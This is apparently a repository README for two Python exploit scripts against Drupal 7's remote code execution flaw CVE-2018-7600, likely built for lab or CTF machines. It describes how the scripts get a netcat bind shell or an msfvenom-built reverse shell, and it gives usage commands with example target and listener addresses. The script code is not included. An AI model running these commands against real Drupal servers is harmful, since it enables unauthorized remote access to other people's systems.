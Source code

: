 # CVE-2018-7600
Two Python3 scripts that exploit Drupal 7's RCE vulnerability on Windows and Linux. Scripts are meant to acquire a shell on the target host.  
Nothing fancy, the scripts are meant to do everything for you and you don't need to setup your listener(s) separately.  

### d2shell.py
Setup and connect to a netcat binded shell onto the victim host.  
Usage.  
~~~Bash
# python3 d2shell.py target lhost windows/linux  
python3 d2shell.py 172.16.1.10 10.10.14.10 windows  
~~~  

![d2shell](d2shell.gif)  

### d2rev.py
Acquire a reverse shell onto the victim host. This script will use msfvenom to create an encoded shell payload if the victim is Windows based.  
Usage.  
~~~Bash
# python3 d2rev.py target lhost windows/linux  
python3 d2rev.py 172.16.1.10 10.10.14.10 windows  
~~~  

![d2rev](d2rev.gif)  

![screen.png](screen.png)
